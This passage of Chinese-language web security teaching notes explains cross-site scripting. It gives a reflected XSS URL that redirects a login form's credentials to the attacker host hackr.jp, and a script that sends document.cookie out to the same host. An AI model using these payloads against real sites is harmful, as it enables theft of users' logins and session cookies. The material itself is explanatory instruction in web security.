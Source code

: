![1565752318382](./images/1565752318382.png)

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。 

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。 

http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=" 对请求时对应的HTML源代码

> &lt;div&gt;  
> &lt;div class=&quot;logo&quot;&gt;   
> 	&lt;img src=&quot;/img/logo.gif&quot; alt=&quot;E! 拍卖会 /&gt;  
> &lt;/div&gt;  
> &lt;form action=&quot;http://example.jp/login&quot; method=&quot;post&quot; id=&quot;login&quot;&gt;  
> 	&lt;div class=&quot;input_id&quot;&gt;  
> 		ID  
> 		&lt;input type=&quot;text&quot; name=&quot;ID&quot; value=&quot;&quot;&gt;&lt;script&gt;var f=document.getElementById(&quot;login&quot;);f.action=&quot;http://hackr.jp/pwget&quot;; f.method=&quot;get&quot;;&lt;/script&gt;&lt;span s=&quot; /&gt;  
> 	&lt;/div&gt;  
> &lt;/form&gt;  
> &lt;/div>    

- ###### 对用户 **Cookie** 的窃取攻击 

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。 

> <script src=http://hackr.jp/xss.js></script> 

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。 

> var content = escape(document.cookie);
>
> document.write("<img src=http://hackr.jp/?");
>
> document.write(content);
>
> document.write(">"); 
